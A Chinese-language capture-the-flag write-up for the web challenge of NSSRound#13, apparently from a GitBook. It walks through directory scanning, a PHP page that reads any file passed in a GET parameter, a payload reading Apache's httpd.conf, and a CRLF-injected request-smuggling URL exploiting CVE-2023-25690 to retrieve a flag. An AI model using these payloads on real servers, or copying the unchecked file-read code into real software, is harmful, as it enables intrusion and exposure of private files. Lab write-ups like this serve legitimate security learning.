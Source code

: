 # NSSRound#13

## Web

### 信息收集

进入网站后只有 `It works!` 其他一片空白， 通过 Network - Header 可以发现 Server 为 `Apache/2.4.55 (Unix)` ，尝试进行目录扫描进行信息收集

```bash
$ python dirsearch.py -u http://node4.anna.nssctf.cn:28011/
```

<figure><img src=".gitbook/assets/信息收集-1.png" alt=""><figcaption></figcaption></figure>

在 `/cgi-bin/printenv` 和 `/cgi-bin/test-cgi` 中都没有发现可用信息，但在 `index.php` 却藏有以下代码

```php
<?php
if(isset($_GET['file'])){
    echo file_get_contents($_GET['file']);
}
else{
    highlight_file(__FILE__);
}
?>
```

通过百度搜索 `Apache/2.4.55 漏洞` 可以找到 [Apache HTTP Server 请求走私漏洞(CVE-2023-25690)](http://www.hackdig.com/03/hack-949961.htm) ，详细就是 某些 mod\_proxy 配置允许 HTTP 请求走私攻击。又因为 `index.php` 包含文件读取，因此我们可以通过构造 payload `file=/usr/local/apache2/conf/httpd.conf` 来获取 `httpd.conf` 文件来寻找漏洞。

<figure><img src=".gitbook/assets/信息收集-2.png" alt=""><figcaption></figcaption></figure>

我们可以发现以下内容

```
RewriteRule "^/nssctf/(.*)" "http://backend-server:8080/index.php?id=$1" [P] ProxyPassReverse "/nssctf/" "http://backend-server:8080/"
```

这里便使用了 mod\_proxy ，因此我们可以尝试在这里使用请求走私。

通过访问 `http://node4.anna.nssctf.cn:28011/nssctf/` 可以发现回显 `flag in here!!!Can you see it???` 。

尝试访问 `http://node4.anna.nssctf.cn:28011/nssctf/HTTP/1.1%0d%0a%0d%0aGET%20/flag.txt` 即请求走私 `HTTP/1.1 \r\n\r\nGET /flag.txt` 就可以获得 flag 了

<figure><img src=".gitbook/assets/信息收集-3.png" alt=""><figcaption></figcaption></figure>
